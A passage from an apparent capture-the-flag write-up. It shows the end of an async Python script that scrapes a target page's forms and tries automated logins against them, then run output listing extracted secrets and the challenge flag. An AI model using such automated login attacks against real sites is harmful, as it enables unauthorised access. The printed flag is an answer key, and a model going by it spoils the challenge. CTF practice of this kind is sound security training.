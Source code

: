 ```python
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Referer': BASE_URL,
    }

    async with aiohttp.ClientSession(headers=headers, connector=connector, timeout=timeout) as session:
        # Fetch the main page
        async with session.get(BASE_URL) as response:
            text = await response.text()

        soup = BeautifulSoup(text, 'html.parser')

        # Find all forms
        forms = soup.find_all('form')

        for form in forms:
            success = await test_form(session, form)
            if success:
                print('[+] Exiting form loop after successful login.')
                break  # Exit the loop after successful login

if __name__ == '__main__':
    asyncio.run(main())
```

Running this script a couple of times lets us find the flag on page 78 (with pagesize 20):

```
[...]
ACCESSING PAGE: 78
[+] Secret found: Individual ready particular time line main pick reflect.
[+] Secret found: Add choice tell begin.
[+] Secret found: Police better office where another member.
[+] Secret found: Marriage less record short.
[+] Secret found: Country usually another how stock himself a seat.
[+] Secret found: Big each other own true college class.
[+] Secret found: Point wall government they eye.
[+] Secret found: Beautiful Mr state else eat green.
[+] Secret found: Ability collection great a along all factor.
[+] Secret found: Season Republican process hundred.
[+] Secret found: Seem she have card page.
[+] Secret found: Kitchen on happen beyond who.
[+] Secret found: Tough his middle family health role century.
[+] Secret found: EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}
[+] Flag found:
EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}
```

`EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}`

